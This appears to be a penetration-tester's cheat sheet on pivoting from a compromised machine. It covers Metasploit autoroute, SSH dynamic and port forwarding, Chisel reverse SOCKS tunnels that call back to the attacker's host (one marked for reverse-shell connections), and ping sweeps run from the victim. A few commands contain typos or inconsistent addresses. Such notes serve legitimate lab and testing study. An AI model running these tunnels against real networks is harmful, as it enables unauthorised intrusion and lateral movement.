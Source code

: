 # Routing
## In msfconsole
Autoroute (outside meterpreter session)
- Location: "/usr/share/metasploit-framework/modules/post/multi/manage/autoroute.rb"
```
run autoroute -s 10.10.10.0/20 3
```
route add (Inside meterpreter session)
- Location: "/usr/share/metasploit-framework/lib/rex/post/meterpreter/extensions/stdapi/net/route.rb"
```
route add 10.10.10.0 255.255.255.0 1,2,3(session id)
```


# Proxy
## SSH Proxy
- Execute following command on the compromised machine
- Proxy service will be on port 4444 of the attacking machine(ssh executing machine)
-  Use either with proxychain sock4 or other alternatives
```
ssh -D 4444 compromised_machine@192.168.1.110
```

## Chisel Proxy
### Chisel Reverse
- Execute following command on the compromised machine
```
chisel server --socks5 --reverse
```
- Chisel server will be on port 8080 of the attacking machine(chisel command executing machine)
- Connect back from compromised machine via Fingerprint generated from server command
```
chisel client --fingerprint "       " 192.168.1.100:8080 R:socks
```
### Chisel Direct
- Use for reverse-shell connections
```
chisel client --fingerprint "       " 192.168.1.100:8080 0.0.0.0:9999:192.168.1.100:9999 (without 0.0.0.0 also works)
```


## Metasploit 

# SSH Port Forwarding 

## Discovering Alive Hosts from Compormised Machine
```
metasploit windows/gather/arp_scanner
```
### Window
powershell
```
1..254 | ForEach-Object { $ip = "192.168.1.$_"; if (Test-Connection -ComputerName $ip -Count 1 -Quiet) { Write-Output "$ip is reachable" } else { Write-Output "$ip is unreachable" } }
```

### Linux
```
for i in {1..254}; do ping -c1 -W1 192.168.1.${i} & done | grep
```


# Important!!
- Please take note 192.168.1.100 as attacking machine(my machine) , 192.168.1.110 as compromised machine(victim 1), 192.168.2.100 as internal machine(victim 2)
## Direct 
- You want to access a web server running on 192.168.2.100 on port 80 through compromised machine 192.168.1.100
- Take note that !!! 8080 "-L 8080:" !!! is ssh command executing machine localhost port 
```
ssh -L 8080:192.168.2.100:80 compromised_machine@192.168.1.100
```

## Reverse

- You want to make a localhost port 80 of your "ssh command executing machine(attacking machine)192.168.1.100" accessible from 192.168.1.110(compromised machine) on port 8080.

```
ssh -R 8080:localhost:80 compromised_machine@192.168.1.100
```

# Chisel Port Forwarding
- First host a chisel server to listen on attacking machine
```
chisel server --sock5 --reverse
```
- Make magic in compromised machine(victim 1)
- Making the victim2's port 80 accessible from the attacking machine's port 8000 (Same as SSH -L) port forwarding
```
chisel client --fingerprint "fingerprint_generated_from_attacking_machine" 192.168.1.100:8080(ip and port of server) R:8000:192.168.2.100:80
```

